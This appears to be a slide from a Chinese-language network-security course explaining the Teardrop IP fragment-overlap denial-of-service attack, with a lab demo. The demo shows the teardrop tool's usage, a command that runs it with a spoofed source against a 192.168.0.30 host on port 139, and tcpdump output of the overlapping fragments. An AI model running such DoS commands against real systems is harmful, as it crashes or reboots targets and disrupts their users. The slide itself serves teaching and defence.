

# IP分片攻击——Fragment Overlap 攻击
Teardrop, bonk, New Teardrop 攻击。
Teardrop 也是利用分片重组漏洞的拒绝服务攻击。通过操作第二个分片的偏移量，使分片在重组的过程中缓存溢出，从而使目标系统宕掉或者重新启动。下面通过实例说明Teardrop攻击。

[root@unsecure DoS]# ./teardrop.linux --help
./teardrop.linux src_ip dst_ip [ -s src_prt ] [ -t dst_prt ] [ -n how_many ]

[root@unsecure DoS]# ./teardrop.linux 1.1.1.1 192.168.0.30 -t 139
[ Binary courtesy: http://www.rootshell.com/ ]
teardrop route|daemon9 　　 Death on flaxen wings: 　　 From: 1.1.1.1.46838 　　 T 192.168.0.30. 139 　　 Amt: 1 　　 [ b00m ]

通过tcpdump可监听到如下内容。
23:29:18.503558 1.1.1.1.51331 > 192.168.0.30.139: udp 28 (frag 242:36@0+)
23:29:18.504693 1.1.1.1 > 192.168.0.30: (frag 242:4@24)
可以看出第一个分片大小为36，而第二个分片的偏移量为24。因此第一个分片与第二个分片重叠。从而可导致系统宕机或者重新启动。与Teardrop类似的攻击有Bonk、New Teardrop等攻击。
18